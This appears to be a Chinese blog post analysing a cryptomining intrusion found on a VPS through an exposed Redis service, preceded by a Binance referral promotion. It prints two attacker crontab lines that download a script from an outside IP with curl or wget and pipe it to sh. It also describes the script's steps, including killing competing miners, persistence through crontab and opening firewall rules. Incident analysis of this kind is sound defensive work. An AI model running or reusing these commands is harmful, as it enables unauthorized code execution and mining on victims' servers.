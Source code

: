 
`文/robin`

***

**本站推广**

币安是全球领先的数字货币交易平台，提供比特币、以太坊、BNB 以及 USDT 交易。

> 币安注册: [https://www.binancezh.com/cn/register/?ref=11190872](https://www.binancezh.com/cn/register/?ref=11190872)
> 邀请码: **11190872**

***

这是「区块链技术指北」的第 28 篇文章。

> 如果对我感兴趣，想和我交流，我的微信号：**Wentasy**，加我时简单介绍下自己，并注明来自「区块链技术指北」。同时我会把你拉入微信群「区块链技术指北」。BTW，李笑来老师也加入了我的知识星球，文末有加入方式。

## 0x00 背景
***

某日，笔者收到 VPS 服务器 CPU 告警，上服务器一看，有个叫做 gpg-agentd 的进程占用大量的 CPU 资源。接着就是常规的排查，IO 情况、网络流量、内存情况、系统日志、crontab 等。当排查到 crontab 时，发现 crontab 有如下的任务：

``` bash
*/5 * * * * curl -fsSL http://84.73.251.157:81/bar.sh | sh
*/5 * * * * wget -q -O- http://84.73.251.157:81/bar.sh | sh
```

该服务器提供 Redis 资源供笔者测试使用，明显上面两个定时任务不是笔者创建的。定时任务访问外网服务器，紧急处理有三点，一是确认其他服务是否受到影响，二是注释定时任务，三是临时断外网，处理完之后，再来排查原因。

![2018-03-08-blockchain-crack-mining](https://cdn.dbarobin.com/Xf3ZNJY.jpg)

> 题图来自: © kisspng.com / Anonymous Guy Fawkes mask Gunpowder Plot / kisspng.com

## 0x01 挖矿脚本分析
***

笔者把该 Shell 脚本下载到本地，然后进行分析。该脚本包含以下函数：

* IKILLYOU
* FIRE
* DOWNLOAD
* INFO
* CRON
* CLEAN
* INIT
* ITABLE

我们 **逐个分析**。IKILLYOU 函数会 kill 掉 ssuspsplk 和 gpg-agentd 进程。CRON 函数会将文首的两个 crontab 写入到 /tmp/.bla.cron 文件，接着清空用户的 crontab，然后将 /tmp/.bla.cron 文件载入到 crontab。FIRE 函数删除掉 6379 端口相关的防火墙，允许本地连接，同时将防火墙配置持久化。INFO 函数用于收集主机信息，包含当前服务器进程、服务器硬件属性、系统内核版本、Linux 发行版本、Linux 发行的详细版本、Linux 标准规范信息、crondb 文件帮助信息（下文还会详细说明这个文件的作用），最后将以上信息上传到 84.73.251.157 指定目录。
